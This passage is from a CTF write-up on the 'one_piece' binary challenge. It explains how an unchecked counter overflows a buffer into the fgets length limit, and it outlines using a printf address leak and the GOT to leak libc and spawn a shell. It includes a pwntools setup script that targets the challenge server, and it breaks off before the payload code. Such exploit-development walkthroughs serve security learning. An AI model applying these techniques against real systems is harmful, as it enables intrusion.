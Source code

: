 ```c
}
```

The vulnerability is in the block `if (*local_40 == 'z') {` where `local_c` can get incremented without a check and overflow the buffer `local_38` into `local_10` (`local_10` is used to constrain `fgets`).  `local_10` is initialized to `0x28`, however if the last char is `z` and `local_c = 0x27`, then the value `-0x77` (`0x89`) will overwrite the lower 8-bits of `local_10`; `fgets` will then permit `0x89` characters of input into a buffer that is `0x38` (`local_38`) bytes from the return address in the stack creating a second BOF vulnerability.

Before any BOFing, `printf("Luffy is amazing, right ? : %lx \n");` leaks a `mugiwara` address that we can use to compute the base process address.  With that we can use the GOT to leak libc, and then get a shell.

Since the libc version is unknown, the first half of the exploit will have to be written and run against the challenge server to leak the version of libc used.


## Exploit

### Setup

> See [_Welcome Pwner Exploit Setup_](https://github.com/datajerk/ctf-write-ups/blob/master/fwordctf2020/welcome_pwner/README.md#setup) for a detailed explanation of why I start my exploits this way:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./one_piece')
context.log_level = 'INFO'
context.log_file = 'log.log'

'''
# local libc
libc = binary.libc
p = process(binary.path)
'''
# task libc
libid = 'libc6_2.30-0ubuntu2.2_amd64'
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'
ld = ELF(libpath + 'ld-2.30.so')
libc = ELF(libpath + 'libc-2.30.so')
#p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})
p = remote('onepiece.fword.wtf', 1238)
#'''
```

The setup above is the final version, but before we can get there, we'll start with our local libc block, then switch to the challenge libc after discovered.

### First Pass: get base process address and overflow `local_10`
